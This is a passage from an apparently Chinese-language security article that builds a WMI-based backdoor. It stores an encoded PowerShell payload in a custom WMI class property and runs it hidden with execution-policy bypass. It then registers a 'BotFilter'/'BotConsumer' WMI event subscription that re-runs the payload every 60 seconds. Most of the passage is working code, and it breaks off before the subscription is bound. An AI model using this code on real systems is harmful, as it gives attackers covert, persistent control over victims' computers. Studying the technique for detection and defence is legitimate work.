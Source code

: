 如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/5a869710f2ca67dd460e871d7bf1ee94aa7aca6b.jpg)

（2）查看加密的payload

```
([WmiClass] 'Win32_Command').Properties['EnCommand']

```

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/37752c692ded707c3425aaa5fabba975b371c90c.jpg)

（3）Client读取指令-解密-执行

```
#读取加密payload
$EncodedPayload=([WmiClass] 'Win32_Command').Properties['EnCommand'].Value
#PowerShell执行命令
$PowerShellPayload = "powershell -ep bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -enc $EncodedPayload"
Invoke-WmiMethod  -Class Win32_Process -Name Create -ArgumentList $PowerShellPayload
#显示解密指令
$bytes2  = [System.Convert]::FromBase64String($EncodedPayload);
$decoded = [System.Text.Encoding]::Unicode.GetString($bytes2); 
"decoded Payload:"
$decoded

```

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/208f13a3f2a396c3204b8e3ce2f37e1814368047.jpg)

server端执行

`([WmiClass] 'Win32_CommandTest').Properties['IP19216840208']`

验证是否成功

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/be39e8e1e5f35d6b54f35823aa68530533c387c3.jpg)

3、Client定时执行powershell命令
------------------------

```
#读取加密指令
$EncodedPayload=([WmiClass] 'Win32_Command').Properties['EnCommand'].Value
$filterName = 'BotFilter56'
$consumerName = 'BotConsumer56'
#创建一个__EventFilter，用于设定触发条件，每隔60s执行一次
$Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE
TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
$WMIEventFilter = Set-WmiInstance -Class __EventFilter -NameSpace "root\subscription" -Arguments @{Name=$filterName;EventNameSpace="root\cimv2";QueryLanguage="WQL";Query=$Query} -ErrorAction Stop

#创建一个CommandLineEventConsumer，用于设定执行的操作
$Arg =@{
        Name=$consumerName
            CommandLineTemplate="C:\WINDOWS\System32\WindowsPowerShell\v1.0\powershell.exe  -NonInteractive  -enc $EncodedPayload"
}

$WMIEventConsumer = Set-WmiInstance -Class CommandLineEventConsumer -Namespace "root\subscription" -Arguments $Arg
```